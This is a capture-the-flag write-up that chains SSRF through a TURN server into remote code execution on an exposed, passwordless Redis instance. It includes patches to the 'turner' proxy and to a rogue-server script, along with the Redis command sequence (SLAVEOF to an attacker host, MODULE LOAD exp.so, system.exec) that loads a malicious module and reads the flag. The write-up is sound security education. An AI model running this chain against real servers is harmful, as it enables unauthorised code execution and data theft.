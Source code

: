 ### 0x00 Challenge

supervisord.conf:

```
[supervisord]
nodaemon=true

[program:gunicorn3]
command=gunicorn3 --workers=10 -b 0.0.0.0:5000 app:app
autorestart=true
user=www

[program:coturn]
command=turnserver
autorestart=true
user=www

[program:redis]
command=timeout 60s redis-server --bind 0.0.0.0
autorestart=true
user=www
```

Dockerfile:

```
FROM ubuntu:18.04

RUN adduser --disabled-password --gecos '' www

RUN apt-get update && apt-get install -y coturn redis python3 python3-pip gunicorn3 supervisor

WORKDIR app
COPY requirements.txt .
RUN pip3 install -r requirements.txt

COPY flag.txt /
RUN chmod 444 /flag.txt

COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf
RUN echo 'min-port=49000' >> /etc/turnserver.conf
RUN echo 'max-port=49100' >> /etc/turnserver.conf

COPY app.py .
COPY static static

EXPOSE 3478
EXPOSE 5000

CMD ["supervisord"]
```

app.py is indeed just a red herring so I am not gonna put it here.

### 0x01 Thoughts

Obviously, following line in supervisord config file is suspicious:

```
command=timeout 60s redis-server --bind 0.0.0.0
```

Every security guy should know *never bind redis server to 0.0.0.0*. Additionally, no password is set for this redis server, which implies this challenge is likely related to SSRF. 

And by some chance, I do recall that TURN server could lead to some internal network magics. So, I started to do Googling and found https://hackerone.com/reports/333419. Unfortunately, the report's author is so bad that only a pcap file of pwning TURN server is provided. I have replayed these TCP packets and tried different clients, but none worked. Indeed, I spent ~8 hours on patching https://github.com/pion/turn/ and finally gave up. 

Nonetheless,

**After attempting other challenges, I discovered the pattern of this whole CTF**: 

![](https://quicklatex.com/cache3/93/ql_41c595e88f3ff92942c14e1013b44593_l3.png)

### 0x02: SSRF

https://github.com/staaldraad/turner finally works for being an HTTP proxy based on TURN server. However, we somehow need to send TCP packets so as to interact with redis server. 

So, being lazy enough, I applied the following change to L106 for `main.go` to send TCP messages to redis server.

```
-   methodLine := fmt.Sprintf("%s %s %s\r\n", r.Method, r.URL.Path, r.Proto)
+   methodLine := fmt.Sprintf("INFO\r\n")
```

And added the following line after L158 to print the response:

```
+   fmt.Println(string(buf[:n]))
```

Then, run this script in terminal (`go build && ./turner -server web.chal.csaw.io:3478`) and set the browser proxy to `127.0.0.1:8080`. By visiting `0.0.0.0:6379`, you can find the information of redis server on the terminal. 

### 0x03: RCE

Since the version of redis server in the docker container is 4.x, we can apply this script: https://github.com/n0b0dyCN/redis-rogue-server

However, since I was too lazy to convert the former HTTP proxy to a socks proxy, I directly dumped the commands sent to the redis server by this RCE script:

```
SLAVEOF [YOUR_ROGUE_SERVER_ADDR] 21000
CONFIG SET dbfilename exp.so
MODULE LOAD ./exp.so
system.exec 'cat /flag.txt'
```

And patched the RCE script at L218 to make it only as a fake master server (rogue server):

```
-   try:
-      runserver(options.rh, options.rp, options.lh, options.lp)
-   except Exception as e:
-      error(repr(e))
+   rogue = RogueServer(options.lh, options.lp)
+   rogue.exp()
```

Then, I again applied the change to L106 for `main.go` in turner:

```
-   methodLine := fmt.Sprintf("INFO\r\n")
+   methodLine := fmt.Sprintf("SLAVEOF [YOUR_ROGUE_SERVER_ADDR] 21000\r\nCONFIG SET dbfilename exp.so\r\nMODULE LOAD ./exp.so\r\nsystem.exec 'cat /flag.txt'\r\n")
```

Finally, run this script again in terminal (`go build && ./turner -server web.chal.csaw.io:3478`) and set the browser proxy to `127.0.0.1:8080`. By visiting `0.0.0.0:6379` and in the meantime constantly restarting rogue server, you can find the flag on the terminal. 

`flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}`
